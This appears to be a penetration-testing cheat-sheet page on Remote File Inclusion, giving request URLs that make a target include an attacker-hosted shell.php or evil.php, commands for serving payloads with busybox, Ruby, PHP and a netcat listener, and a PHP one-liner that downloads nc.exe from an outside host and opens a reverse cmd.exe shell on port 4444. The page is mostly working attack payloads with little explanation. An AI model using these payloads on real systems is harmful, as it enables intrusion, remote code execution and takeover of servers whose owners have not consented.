 # RFI

Related to command injection as well:

{% embed url="https://www.offensive-security.com/metasploit-unleashed/web-delivery/" %}

{% hint style="info" %}
Less common than LFI since it needs allow\_url\_include such as data:// wrapper. Allow us to include files via HTTP or SMB.

We could also use a publicly-accessible file, such as one from Github.

Common scenarios where we’ll find this option enabled is when the web application loads files or contents from remote systems e.g. libraries or application data.
{% endhint %}

We can serve a PHP shell for example with Python http.server to trigger the RFI. For example:

```bash
http://MachineIP/index.php?param=Kali_IP/shell.php
http://$IP/file=http://$MY_IP/evil.php%00
http://$IP/file=http://$MY_IP/evil.php?

#busybox
busybox httpd -f -p 10000

#Ruby
ruby -run -e httpd . -p 9000

#PHP
php -S 0.0.0.0:8000

# Just for testing RFI → use nc -lvnp 80 instead of Python server
```

## RFI to RCE <a href="#remote-file-inclusion-shell-windows-php" id="remote-file-inclusion-shell-windows-php"></a>

[https://www.thehacker.recipes/web/inputs/file-inclusion/rfi-to-rce](https://www.thehacker.recipes/web/inputs/file-inclusion/rfi-to-rce)

## UNC Path

```bash
//$IP/something
```

## RFI via SMB Server <a href="#remote-file-inclusion-shell-windows-php" id="remote-file-inclusion-shell-windows-php"></a>

{% content-ref url="../ports/smb.md" %}
[smb.md](../ports/smb.md)
{% endcontent-ref %}

## Windows Shell (PHP) <a href="#remote-file-inclusion-shell-windows-php" id="remote-file-inclusion-shell-windows-php"></a>

{% code overflow="wrap" fullWidth="true" %}
```php
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
```
{% endcode %}
